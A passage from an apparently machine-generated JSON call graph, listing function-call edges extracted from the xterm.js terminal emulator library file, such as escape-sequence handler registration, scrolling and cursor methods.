"source": "static/js/xterm.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollPages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollToTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollToBottom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollToLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerDcsHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerDcsHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleWindowsPtyOptionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleWindowsPtyOptionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_enableWindowsWrappingHeuristics"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_enableWindowsWrappingHeuristics"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "event"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getAttrData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCsiHandlerFallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setEscHandlerFallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandlerFallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setOscHandlerFallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setDcsHandlerFallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "debug"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setPrintHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "print"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "bell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "lineFeed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "lineFeed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "lineFeed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "carriageReturn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "backspace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "tab"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shiftOut"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shiftIn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "nextLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setExecuteHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "tabSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setIconName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "saveCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "restoreCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "nextLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "tabSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reverseIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "keypadApplicationMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "keypadNumericMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fullReset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectDefaultCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectDefaultCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "selectCharset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "screenAlignmentPattern"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setErrorHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerDcsHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "requestStatusString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_preserveStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_logSlowResolvingAsync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "race"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCurrentLinkId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_logSlowResolvingAsync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_preserveStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_logSlowResolvingAsync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_preserveStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_logSlowResolvingAsync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "print"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "extractWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "extractShouldJoin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "extractWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCurrentLinkId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addLineToLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "copyCellsFrom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addCodepointToCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerCsiHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerDcsHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerDcsHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerEscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "registerOscHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "bell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "lineFeed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "carriageReturn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "backspace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restrictCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restrictCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "tab"}, 